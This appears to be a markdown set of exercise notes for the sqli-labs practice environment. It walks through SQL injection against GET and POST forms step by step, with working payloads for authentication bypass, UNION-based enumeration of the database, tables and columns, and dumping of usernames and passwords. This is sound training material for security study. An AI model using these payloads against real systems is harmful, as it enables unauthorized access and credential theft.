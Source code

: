 # SQL Injection Exercises
Based on <https://github.com/Audi-1/sqli-labs>

## Methodology:
1. Identity query vulnerability
2. Identify injection vector
3. Identify number of columns (range) using `ORDER BY`
4. Identify data display positions in the page
5. Retrieve database/version/user information
6. Enumerate tables
7. Enumerate columns
8. Retrieve data

References:
- <https://blog.csdn.net/m0_54899775/article/details/121941275>
- <https://medium.com/@hninja049/step-by-step-sql-injection-ed1bb97b3eae>

# Example 1: GET from sqli-labs

## 1.1. Identify query vulnerability

### Less-1
- SQL query string: `SELECT * FROM users WHERE id='$id' LIMIT 0,1`
- Test using `?id=1'`: error `''1'' LIMIT 0,1'`
### Less-2
- SQL query string: `SELECT * FROM users WHERE id=$id LIMIT 0,1`
- Test using `?id=1'`: error `'' LIMIT 0,1'`
### Less-3
- SQL query string: `SELECT * FROM users WHERE id=('$id') LIMIT 0,1`
- Test using `?id=1'`: error `''1'') LIMIT 0,1'`
### Less-4
- SQL query string: `SELECT * FROM users WHERE id=($id) LIMIT 0,1`
- Test `?id=1'`: no error, logged in as user ID 1
- Test `?id=1"`: error `'"1"") LIMIT 0,1'`

## 1.2. Identify injection vector (bypass authentication)
```console
?id=' OR 1=1 -- -
```
> Find the user ID that bypasses authentication and use for subsequent queries

## 1.3. Identify range
```console
?id=1' OR 1=1 ORDER BY 3 -- -
```

## 1.4. Identify data display positions
```console
?id=1' UNION SELECT 1,2,3 -- -
```
or
```console
?id=1' UNION SELECT 1,2,3 LIMIT 1,1 -- -
```

## 1.5. Retrieve database/version/user information
```console
?id=1' UNION SELECT 1,DATABASE(),3 LIMIT 1,1 -- -
?id=1' UNION SELECT 1,VERSION(),3 LIMIT 1,1 -- -
?id=1' UNION SELECT 1,USER(),3 LIMIT 1,1  -- -
```

## 1.6. Enumerate tables
```console
?id=1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -
```

## 1.7. Enumerate columns
```console
?id=1' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_schema=database() -- -
```

## 1.8. Retrieve data
```console
?id=1' UNION SELECT 1,GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users -- -
```

# Example 2: POST from sqli-labs

## 2.1. Identify query vulnerability

### Less-11
- SQL query string: `SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1`
- Test username=`1'`: error `''1'' and password='' LIMIT 0,1'`
### Less-12
- SQL query string: `SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1`
- Test username=`1'`: no error, login attempt failed
- Test username=`1"`: error `'"1"") and password=("") LIMIT 0,1'`

## 2.2. Identify injection vector (bypass authentication)
```console
' OR 1=1 -- -
```
> find the user ID that bypasses authentication and use for subsequent queries

## 2.3. Identify range
```console
' OR 1=1 ORDER BY 2 -- -
```

## 2.4. Identify data display positions
```console
dumb' UNION SELECT 1,2,3 -- -
```
or
```console
dumb' UNION SELECT 1,2 LIMIT 1,1 -- -
```

## 2.5. Retrieve database/version/user information
```console
dumb' UNION SELECT 1,DATABASE() LIMIT 1,1 -- -
dumb' UNION SELECT 1,VERSION() LIMIT 1,1 -- -
dumb' UNION SELECT 1,USER() LIMIT 1,1  -- -
```

## 2.6. Enumerate tables
```console
dumb' UNION SELECT 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1 -- -
```

## 2.7. Enumerate columns
```console
dumb' UNION SELECT 1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() LIMIT 1,1 -- -
```

## 2.8. Retrieve data
```console
dumb' UNION SELECT GROUP_CONCAT(username),GROUP_CONCAT(password) FROM users LIMIT 1,1 -- -
```
